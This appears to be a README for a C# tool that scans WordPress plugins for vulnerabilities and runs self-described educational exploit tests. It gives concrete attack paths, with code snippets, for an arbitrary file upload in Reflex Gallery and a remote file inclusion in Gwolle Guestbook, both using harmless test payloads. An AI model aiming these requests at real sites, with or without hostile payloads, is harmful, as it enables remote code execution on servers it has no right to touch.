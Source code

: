 # WordPress Plugin Vulnerability Analysis System

## Overview

This system implements comprehensive WordPress plugin vulnerability detection and educational exploit testing capabilities, based on advanced penetration testing techniques. The implementation is designed for **educational security research purposes only** and includes thread-safe, rate-limited analysis capabilities.

## Architecture

### Core Components

1. **Vulnerability Models**
   - `PluginVulnerability.cs` - Vulnerability detection results
   - `VulnerabilityExploitResult.cs` - Exploit attempt results

2. **Analyzers**
   - `WordPressPluginVulnerabilityAnalyzer.cs` - Basic vulnerability detection
   - `AdvancedWordPressExploitAnalyzer.cs` - Advanced educational exploitation

3. **Services**
   - `WordPressVulnerabilityResearchService.cs` - Comprehensive analysis orchestration
   - `DatabaseService.cs` - Extended with vulnerability storage methods

## Implemented Vulnerabilities

### 1. Reflex Gallery (Arbitrary File Upload)
- **CVE Reference**: Educational implementation
- **Vulnerability Type**: Arbitrary File Upload leading to RCE
- **Severity**: Critical
- **Implementation**:
  ```csharp
  // Educational file upload testing
  var uploadUrl = $"{url}/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php?Year={year}&Month={month}";
  var testPayload = "<?php /*Educational test*/ echo 'SECURITY_TEST_MARKER'; ?>";
  ```
- **Detection Method**: Multipart form data upload with safe test payload
- **Educational Approach**: Uses harmless marker strings instead of malicious code

### 2. Gwolle Guestbook (Remote File Inclusion)
- **CVE Reference**: Educational implementation
- **Vulnerability Type**: Remote File Inclusion (RFI)
- **Severity**: High
- **Implementation**:
  ```csharp
  // Safe RFI testing with educational URL
  var testRemoteUrl = "https://httpbin.org/user-agent";
  var vulnerableUrl = $"{url}/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath={testRemoteUrl}";
  ```
- **Detection Method**: Remote file inclusion testing with safe external resources
- **Educational Approach**: Uses httpbin.org for predictable, safe content
